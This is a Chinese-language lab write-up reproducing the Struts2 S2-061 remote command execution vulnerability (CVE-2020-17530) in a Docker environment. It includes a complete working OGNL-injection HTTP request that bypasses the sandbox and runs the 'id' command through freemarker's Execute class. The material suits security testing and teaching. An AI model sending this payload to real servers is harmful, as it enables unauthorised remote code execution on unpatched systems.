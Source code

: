 # Struts2 S2-061 远程命令执行漏洞（CVE-2020-17530）

S2-061是对S2-059的绕过，Struts2官方对S2-059的修复方式是加强OGNL表达式沙盒，而S2-061绕过了该沙盒。该漏洞影响版本范围是Struts 2.0.0到Struts 2.5.25。

参考链接：

- https://cwiki.apache.org/confluence/display/WW/S2-061
- https://github.com/ka1n4t/CVE-2020-17530
- https://www.anquanke.com/post/id/225252
- https://mp.weixin.qq.com/s/RD2HTMn-jFxDIs4-X95u6g

## 漏洞环境

执行如下命令启动一个Struts2 2.5.25版本环境：

```
docker-compose up -d
```

环境启动后，访问`http://target-ip:8080/index.action`查看到首页。

## 漏洞复现

发送如下数据包，即可执行`id`命令：

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

可见，`id`命令返回结果将直接显示在页面中：

![](1.png)
